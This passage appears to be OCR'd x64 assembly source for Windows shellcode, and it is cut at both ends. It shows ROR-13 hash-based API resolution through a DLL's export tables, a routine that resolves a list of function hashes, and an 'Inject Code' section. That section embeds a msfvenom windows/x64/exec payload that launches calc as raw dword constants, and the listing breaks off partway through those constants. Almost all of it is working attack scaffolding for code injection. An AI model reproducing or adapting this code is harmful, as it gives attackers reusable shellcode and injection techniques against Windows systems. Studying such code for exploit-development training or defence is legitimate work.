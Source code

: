         ror edi, 0x0D                       ; Rotate the bits of EDI right 13 bits
        add edi, eax                        ; Add EAX to EDI
        jmp compute_hash_again
    compute_hash_finished:
    find_function_compare:
        cmp edi, r12d                       ; Compare the calculated hash to the stored hash
        jnz find_function_loop
        mov ebx, [rdx+0x24]                 ; EBX contains the offset to the
                                            ; AddressNameOrdinals list
        add rbx, r11                        ; RBX points to the AddressNameOrdinals list
        mov cx, [rbx+2*rcx]                 ; CX contains the function number matching the
                                            ; current function 
        mov ebx, [rdx+0x1C]                 ; EBX contains the offset to the AddressOfNames list
        add rbx, r11                        ; RBX points to the AddressOfNames List
        mov eax, [rbx+4*rcx]                ; EAX contains the offset of the desired function address
        add rax, r11                        ; RAX contains the address of the desired function
    find_function_finished:
        ret
        
    ; ======== Function: resolve_symbols_for_dll
    resolve_symbols_for_dll:
        mov r12d, [r8d]                     ; Move the next function hash into R12
        add r8, 0x04                        ; Point R8 to the next function hash
        call find_function
        mov [r15], rax                      ; Store the resolved function address
        add r15, 0x08                       ; Point to the next free space
        cmp r9, r8                          ; Check to see if the end of the hash list was reached
        jne resolve_symbols_for_dll
    resolve_symbols_for_dll_finished:
        ret
        
    ; ======== Inject Code
    ; Payload
    injected_code:
    call injected_code_return
    ; msfvenom -p windows/x64/exec -a x64 --platform windows CMD=calc -f dword
    ; EXITFUNC=thread
    ; No encoder specified, outputting raw payload
    ; Payload size: 272 bytes
    ; Final size of dword file: 832 bytes
    dd 0xe48348fc
    dd 0x00c0e8f0
    dd 0x51410000
    dd 0x51525041
    dd 0xd2314856
    dd 0x528b4865
    dd 0x528b4860
    dd 0x528b4818
    dd 0x728b4820
    dd 0xb70f4850
    dd 0x314d4a4a
    dd 0xc03148c9
    dd 0x7c613cac
    dd 0x41202c02
    dd 0x410dc9c1
    dd 0xede2c101
    dd 0x48514152
    dd 0x8b20528b
    dd 0x01483c42
    dd 0x88808bd0
    dd 0x48000000
    dd 0x6774c085
    dd 0x50d00148
    dd 0x4418488b